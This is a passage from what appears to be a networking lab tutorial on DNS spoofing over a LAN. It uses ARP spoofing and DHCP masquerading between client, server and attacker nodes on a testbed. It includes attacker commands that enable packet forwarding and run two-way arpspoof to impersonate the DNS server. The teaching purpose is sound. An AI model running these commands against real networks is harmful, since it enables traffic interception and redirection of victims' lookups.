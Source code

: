 ```
nslookup google.com
```

In the `tcpdump` output on the server, you should see the DNS query and response.

Finally, we'll visit `google.com` using a browser on our client, and verify that name lookup again. On the client, run

```
lynx http://google.com
```

and again, you should see the name lookup in the `tcpdump` output on the server. (Use `y` in the Lynx window to accept cookies; use `q` and then `y` again to quit Lynx when you're done.)

Now, will try two methods for DNS spoofing on a LAN:

1. The attacker uses ARP spoofing to impersonate the "good" DNS server, and responds to DNS queries for the targeted website before the "good" DNS server does. 
2. The attacker uses a DHCP masquerade attack to impersonate the "good" DHCP server, and tells the victim to use the attacker as a nameserver. Then it serves its own address in response to DNS queries for the targeted website.


Open another two terminal windows, and in both, log in to your "attacker" node.

### ARP spoofing

This attack works most reliably when packets from the attacker reach the client _before_ packets from the "good" server. To ensure this happens in our experiment, we will set up some extra latency on the "good" server. Stop the `tcpdump` process on the "good" server temporarily, and run

```
sudo tc qdisc del dev eth1 root
sudo tc qdisc add dev eth1 root netem delay 500ms 2ms distribution normal
```

This procedure assumes that you have just completed the steps above, so that the client uses the "good" server for both DHCP and DNS lookups, and that the `dnsmasq` process is currently running on the "good" server. If you haven't gone through those steps yet, do them now.


Check the client's ARP table to see what MAC address is currently associated with the server's IP address:

```
arp -a -i eth1
```

Next, we are going to use ARP spoofing to make the client believe we are the "good" server, and the server believe we are the client. On the attacker, run:


```
# Enable packet forwarding
sudo sysctl -w net.ipv4.ip_forward=1
# get IP address of client from the "good" server
clientip=$(dig @10.10.1.2 +short client)
# two-way ARP spoofing: make client think we are
# the "good" server, make "good" server think we 
# are the client
sudo arpspoof -i eth1 -t "$clientip" 10.10.1.2 &
sudo arpspoof -i eth1 -t 10.10.1.2 "$clientip" &
```

